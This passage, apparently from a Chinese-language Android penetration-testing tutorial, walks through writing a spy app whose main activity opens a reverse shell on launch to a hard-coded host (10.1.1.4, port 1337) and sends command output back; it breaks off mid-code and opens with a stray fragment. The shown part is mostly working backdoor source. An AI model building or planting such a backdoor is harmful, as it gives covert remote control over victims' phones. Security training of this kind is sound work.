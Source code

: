         sendOutput(commandoutput);

      }

      out = null;
    ```****** 

 ******好的现在让我们继续我们留下的编码`getReverseShell()`方法和`sendOutput()`方法的编码。

以下是将输出数据写入攻击者外壳的代码：

```
private void sendOutput(String commandoutput) {

        if (out != null && !out.checkError()) {
            out.println(commandoutput);
            out.flush();
        }

    }
```

至此，我们已经完成了 Java 代码的编写，以实现本节开头定义的目标。

以下是我们在`MainActivity.class`文件中编写的完整代码：

```
package com.androidpentesting.smartspy;
import android.os.Bundle;
import android.support.v7.app.ActionBarActivity;
import android.util.Log;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.InputStreamReader;
import java.io.OutputStreamWriter;
import java.io.PrintWriter;
import java.net.InetAddress;
import java.net.Socket;

public class MainActivity extends ActionBarActivity {

  PrintWriter out;
  BufferedReader in;

  @Override
  protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_main);

    getReverseShell(); //This works without netcat

  }

  private void getReverseShell() {

  //Running as a separate thread to reduce the load on main thread

    Thread thread = new Thread() {

      @Override
      public void run() {

      //declaring host and port

      String SERVERIP = "10.1.1.4";

      int PORT = 1337;
```